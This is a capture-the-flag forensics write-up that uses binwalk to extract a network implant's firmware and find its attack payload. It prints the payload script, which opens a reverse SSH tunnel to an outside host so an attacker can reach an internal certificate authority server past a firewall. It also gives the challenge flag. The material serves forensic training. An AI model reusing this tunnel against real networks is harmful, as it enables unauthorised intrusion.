

# Controlled Access

## Challenge
* Category: Forensics
* Points: 50


We've been asked to help a certificate authority figure out what a device they found plugged into their network was doing. They were able to dump the firmware and would like to know if it allowed the attacker to connect to any devices that their firewall (which blocks inbound SSH) would have stopped. Their internal domain uses 'digisigner.local' for DNS host names. The flag is the hostname of the internal host that the hacker targeted (i.e. ACI{[local hostname targeted]}).

### Hints
* A tool like binwalk might be useful for inspecting the firmware.
* The documentation mentions that the 'attack' payload for this device lives in a very particular spot on the filesystem...


## Solution

https://docs.hak5.org/hc/en-us/articles/360034130934-Directory-Structure
```
/root/loot/ – home to log files and other loot stored by payloads
/root/payload/ – home to the payload which will execute when the switch is flipped to the Attack mode
/tmp/ – volatile memory for temporary storage during payload execution
```

So we need to dump the conbtents of the firmware. We'll use `binwalk`.

CAUTION: I apt-get installed binwalk in an Ubuntu 18.04 vagrant vm and it would not extract nested directory content

So I used the default binwalk repo installed with Kali Linux.

https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/

Lets binwalk the fimrware.bin file

```
$ binwalk -e firmware.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             uImage header, header size: 64 bytes, header CRC: 0x1E09FA95, created: 2019-11-06 04:52:00, image size: 1467840 bytes, Data Address: 0x80000000, Entry Point: 0x80000000, data CRC: 0x71E0036C, OS: Linux, CPU: MIPS, image type: OS Kernel Image, compression type: lzma, image name: "MIPS OpenWrt Linux-4.14.109"
64            0x40            LZMA compressed data, properties: 0x6D, dictionary size: 8388608 bytes, uncompressed size: 4644588 bytes

WARNING: Extractor.execute failed to run external extractor 'sasquatch -p 1 -le -d 'squashfs-root-0' '%e'': [Errno 2] No such file or directory: 'sasquatch', 'sasquatch -p 1 -le -d 'squashfs-root-0' '%e'' might not be installed correctly

WARNING: Extractor.execute failed to run external extractor 'sasquatch -p 1 -be -d 'squashfs-root-0' '%e'': [Errno 2] No such file or directory: 'sasquatch', 'sasquatch -p 1 -be -d 'squashfs-root-0' '%e'' might not be installed correctly
1467904       0x166600        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 7125282 bytes, 1024 inodes, blocksize: 262144 bytes, created: 2020-04-24 00:36:54

```

According to the website above, need to look in the `/root/payload` directory for a script.
```
$ cat _firmware.bin.extracted/squashfs-root/root/payload/payload.sh
#!/bin/bash
#
# Title:         Secure Shark Jacker
# Author:        Mr. Robot
# Version:       13.37
#
INTERNAL_HOST=rootca.digisigner.local
INTERNAL_PORT=22

function run() {
    ssh -R localhost:31337:$INTERNAL_HOST:$INTERNAL_PORT garyhost@10.57.1.7
}


# Run payload
run &

```

The challenge states the flag is the hostname of the internal host that was targeted, so:

**ACI{rootca.digisigner.local}**
